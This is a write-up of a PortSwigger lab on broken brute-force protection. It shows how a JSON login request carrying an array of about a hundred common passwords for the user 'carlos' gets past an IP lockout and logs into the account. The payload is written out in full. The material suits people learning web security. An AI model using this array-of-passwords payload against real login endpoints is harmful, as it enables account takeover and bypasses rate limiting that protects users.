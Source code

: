 # Broken brute-force protection, multiple credentials per request

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request), you'll learn: Broken brute-force protection, multiple credentials per request! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222065102.png)

**Let's try to trigger the brute force protection:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222065155.png)

If we entered incorrect password **4 times**, the application will block our IP address.

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222065806.png)

In here, we can see that the login credentails is in **JSON format**.

However, in JSON, we can send an array to a key via `[]`!

**For example:**
```json
{
    "username":"carlos",
    "password":[
        "123456"
        "password"
        "12345678"
        "..."
    ],
    "":""
}
```

**Armed with above information, we can see an array of passwords!**
```json
{
    "username":"carlos",
    "password":[
        "123456",
        "password",
        "12345678",
        "qwerty",
        "123456789",
        "12345",
        "1234",
        "111111",
        "1234567",
        "dragon",
        "123123",
        "baseball",
        "abc123",
        "football",
        "monkey",
        "letmein",
        "shadow",
        "master",
        "666666",
        "qwertyuiop",
        "123321",
        "mustang",
        "1234567890",
        "michael",
        "654321",
        "superman",
        "1qaz2wsx",
        "7777777",
        "121212",
        "000000",
        "qazwsx",
        "123qwe",
        "killer",
        "trustno1",
        "jordan",
        "jennifer",
        "zxcvbnm",
        "asdfgh",
        "hunter",
        "buster",
        "soccer",
        "harley",
        "batman",
        "andrew",
        "tigger",
        "sunshine",
        "iloveyou",
        "2000",
        "charlie",
        "robert",
        "thomas",
        "hockey",
        "ranger",
        "daniel",
        "starwars",
        "klaster",
        "112233",
        "george",
        "computer",
        "michelle",
        "jessica",
        "pepper",
        "1111",
        "zxcvbn",
        "555555",
        "11111111",
        "131313",
        "freedom",
        "777777",
        "pass",
        "maggie",
        "159753",
        "aaaaaa",
        "ginger",
        "princess",
        "joshua",
        "cheese",
        "amanda",
        "summer",
        "love",
        "ashley",
        "nicole",
        "chelsea",
        "biteme",
        "matthew",
        "access",
        "yankees",
        "987654321",
        "dallas",
        "austin",
        "thunder",
        "taylor",
        "matrix",
        "mobilemail",
        "mom",
        "monitor",
        "monitoring",
        "montana",
        "moon",
        "moscow"
    ],
    "":""
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222070502.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222070510.png)

We're user `carlos`!

# What we've learned:

1. Broken brute-force protection, multiple credentials per request